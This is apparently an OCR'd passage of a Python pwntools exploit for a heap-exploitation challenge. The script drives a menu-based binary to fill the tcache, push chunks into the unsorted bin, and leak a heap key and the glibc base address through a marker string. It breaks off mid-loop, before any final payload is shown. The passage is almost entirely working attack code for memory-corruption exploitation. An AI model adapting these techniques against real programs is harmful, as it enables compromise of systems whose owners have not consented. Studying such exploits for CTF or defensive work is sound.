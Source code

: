 ```py

def alloc(size, data):
    io.sendlineafter(b': ', b'1')
    io.sendlineafter(b': ', str(size).encode())
    io.sendafter(b': ', data)

def free(i):
    io.sendlineafter(b': ', b'2')
    io.sendlineafter(b': ', str(i).encode())
    io.recvuntil(b'Data: ')
    return io.recvuntil(b'\n1)', drop=True)

def edit(i, data):
    io.sendlineafter(b': ', b'3')
    io.sendlineafter(b': ', str(i).encode())
    io.sendafter(b': ', data)

for i in range(0, 9):
    alloc(0x18, b'\n')

# tcache
for i in range(0, 7):
    free(i)

# unsorted
free(8)
free(7)

alloc(0x400, flat({0x18: b'NEEDLE :'}))
leak = free(0)
leak = leak.split(b'NEEDLE :', 1)[1]
leak = unpack(leak, 'all')

heap_key = leak
print('heap key: ' + hex(heap_key))

for i in range(0, 9):
    alloc(0x88, b'\n')

alloc(0x88, b'guard\n')

# tcache
for i in range(0, 7):
    free(i)

# unsorted
free(8)
free(7)

alloc(0x118, flat({0x88: b'NEEDLE :x'}))

leak = free(0)
leak = leak.split(b'NEEDLE :', 1)[1]
leak = unpack(leak, 'all')
leak = leak & 0xffffffffffffff00

libc.address = leak - 0x1e3c00
print('libc: ' + hex(libc.address))

for i in range(0, 2):
    alloc(0x18, b'\n')

for i in range(0, 2):
```